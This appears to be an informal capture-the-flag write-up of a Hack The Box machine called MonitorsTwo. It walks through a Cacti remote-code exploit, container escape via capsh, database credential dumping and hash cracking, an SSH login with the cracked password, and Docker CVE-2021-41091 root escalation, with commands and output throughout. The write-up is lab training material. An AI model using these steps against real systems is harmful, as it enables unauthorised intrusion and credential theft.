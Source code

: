 i start the machine with a classic NMAP scan:
	
	nmap -sC -sV -p- 10.10.11.211 
output:
	
	22/tcp open  ssh
	80/tcp open  http
i start taking a look at the webserver on port 80

is a simple login page of "Cacti group",
searching online i found a possible exploit:
	
	https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit
i run the script and submit all the data from the web serevr and my ip and port,
and i get a shell as www-data (EZ).
so i keep on going with enumeration because it is probably going to be
a docker container beacuse there are
no users...

so i upload linpeas on the machine and run it:
	
	is a docker container
I found out that there is a /sbin/capsh SUID vulnerability that i can abuse to get root on the container,
in this post i found a possible exploit:
	
	https://www.bughunter.me/ctf-write-ups/hackthebox-monitortwo-write-up/
exploit:
	
	/sbin/capsh --gid=0 --uid=0 --	
so now we are root in the container GREAT!! right??
actually for now i was a little bit sceptic but kept going because i didn't find much...
P.S. after a while i comed back on this part because maybe we need that for later =)

in /etc/hosts i found this other host that is probably going to be 
the other container:
	
	172.19.0.3      50bca5e748b0
also in the entrypoint.sh we see a file refering to a database thath we found
creds for:
	
	host=db
	user=root
	password=root
so we can try connect from the remote host and see what's there:
	
	mysql --host=db  --user=root --password=root
WE ARE IN!
now we can enumerate the database, in cacti i found some creds in user_auth:
	
	marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
	admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
	guest    | 43e9a4ab75570f5b
i could crack marcus password:
	
	marcus:funkymonkey
so we can now log in the actual machine and not just a container;
even if we could get root in that container by 
chown =(

so now we can log with pwncat via ssh:
	
	python3 -m pwncat
	connect  ssh://marcus:funkymonkey@10.10.11.211:22
and we are inside marcus home where we can submit our first flag

and keep going with the enumeration;

in marcus home directory we found some odds docker file,
so i tried to check docker version to see if maybe it is vulnerable:
	
	docker --version
output:
	
	Docker version 20.10.5+dfsg1, build 55c4c88
i checked online for exploits and i found this:
	
	https://github.com/UncleJ4ck/CVE-2021-41091
is a CVE that makes u run root by executing code inside a container
and WE HAVE A CONTAINER WHERE WE ARE ROOT (see line 23)

so insiede that docker container we need to run this command as root:
	
	chmod u+s /bin/bash
then we need to go back on our local machine and upload the payload that we find in the github repo (i used
pwncat to upload the file):
	
	Ctrl + d
	upload CVE-2021-41091/exp.sh /tmp/exp.sh
	Ctrl + d
	cd /tmp
	chmod +x exp.sh
	./exp.sh -yes
now we have binded a directory where we have a /bin/bash with SUID on, we can try cd there
and execute the file as the output of the exploit says:
	
	cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
	./bin/bash -p
output:
	
	(remote) root@monitorstwo
SO WE ARE FINALLY ROOT!!!
and we can submit the last flag





